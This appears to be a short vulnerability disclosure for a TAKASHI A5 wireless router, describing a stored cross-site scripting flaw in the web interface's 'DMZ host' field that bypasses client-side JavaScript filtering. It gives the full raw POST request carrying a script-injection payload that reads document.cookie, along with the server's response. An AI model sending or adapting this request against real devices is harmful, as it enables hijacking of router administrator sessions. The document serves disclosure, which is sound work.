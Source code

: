 #TAKASHI-Wireless-Instant-Router-And-Repeater<br />
`Software version 	    V5.07.38_AAL03`<br />
`Hardware version 	    V3.0`<br />
`Model no.A5`<br />


The vulnerability lies within sanitizing user input.<br />
when a request to sent to the web application.<br />

Specifically the 'DMZ host' IP address.<br />

On the webserver the request is filtered by a javascript function that can be bypassed easily by sending the request directly leading to a XSS <br />injection. The injection is stored on the web application and is refected to any user that visits the 'DMZ Host' section of the web application.<br />

This is the request that leads to cross site scripting. the closing script<br />
closes the previous running script and we can start our own immediatly after.<br />

POST /goform/VirSerDMZ HTTP/1.1<br />
Host: `192.168.2.1`<br />
Content-Length: 56<br />
Cache-Control: max-age=0<br />
Origin: `http://192.168.2.1`<br />
DNT: 1<br />
Upgrade-Insecure-Requests: 1<br />
Content-Type: application/x-www-form-urlencoded<br />
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0<br />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7<br />
Referer: `http://192.168.2.1/nat_dmz.asp`<br />
Accept-Encoding: gzip, deflate, br<br />
Accept-Language: en-US,en;q=0.9,nl;q=0.8<br />
Cookie: admin:language=LOL<br />
Connection: keep-alive<br />
<br />
GO=nat_dmz.asp&dmzip=`</script><script>alert(document.cookie);</script>`<br />
<br />

This ouputs:<br />
HTTP/1.0 302 Redirect<br />
Server: GoAhead-Webs<br />
Date: Thu Jan 01 00:53:41 1970<br />
Pragma: no-cache<br />
Cache-Control: no-cache<br />
Content-Type: text/html<br />
Location: `http://192.168.2.1`/nat_dmz.asp<br />

<html><br /><head><br /></head><br /><body><br />
		This document has moved to a new `<a href="http://192.168.2.1/nat_dmz.asp">location</a>.<br />`
		Please update your documents to reflect the new location.<br />
		</body></html><br />
<br />
JNow once that request is made, a persistant script is left on the server that will exicute any time the page is visited.
